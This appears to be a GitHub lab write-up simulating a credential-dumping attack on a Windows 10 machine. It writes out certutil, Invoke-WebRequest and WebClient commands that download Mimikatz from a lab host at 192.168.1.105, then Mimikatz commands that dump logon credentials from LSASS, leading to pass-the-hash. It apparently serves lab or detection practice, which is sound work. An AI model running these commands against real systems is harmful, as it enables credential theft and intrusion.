 # Scenario
An attacker has gained access into a windows 10 pro machine and performed privilege escalation techniques, giving them access to the local admin account of the victim machine. With their elevated privileges they have been able to download Mimikatz onto the victim
machine and have used this to perform a credential dump for any of the users on the computer. These will presumably be used to attempt lateral movement onto other victim machines using techniques such as Pass-the hash.

# Setup
- Defender Diabled
# Attack steps

## Attacker downloads mimkatz from an external source
Available Tools:
- Certutil
- Invoke-WebRequest
- System.Net.WebClient

1. Certutil
   - Attacker opens powershell or CMD
   - Runs Command: `certutil -urlcache -f http://192.168.1.105:8080/mimikatz.exe mimkatz.exe`

   Screenshot: <img width="840" height="532" alt="image" src="https://github.com/user-attachments/assets/54c1e32a-b534-4520-aa72-6fe9733c028f" />

2. Invoke-WebRequest
   - Attacker opens powershell
   - Runs Command: `Invoke-WebRequest -Uri "http://192.168.1.105:8080/mimikatz.exe" -OutFile "mimikatz.exe"`
   Screenshot: <img width="1026" height="766" alt="image" src="https://github.com/user-attachments/assets/9793dcb9-b6da-477c-853d-0f271e39326c" />

3. System.Net.WebClient
   - Attacker opens powershell
   - Runs Commands: `$wc = New-Object System.Net.WebClient` and `$wc.DownloadFile("http://192.168.1.105:8080/mimikatz.exe", "mim1katz.exe.exe")`

## Attacker starts the executable 

## Attacker begins dumping the Credentials 
  - Attacker requests SEDeubgPrivilege for the current process giving the process access to protected process such as LSASS.exe `privilege::debug`
  - Attacker dumps the credentials `sekurlsa:logonpasswords`
    Screenshot: <img width="1030" height="766" alt="image" src="https://github.com/user-attachments/assets/e00760f1-23e8-4301-87b6-905a8f5cedf8" />

# Next Steps
- Attacker may crack weak credentials and obtain the password
- Attacker may use these in pass-the-hash attacks



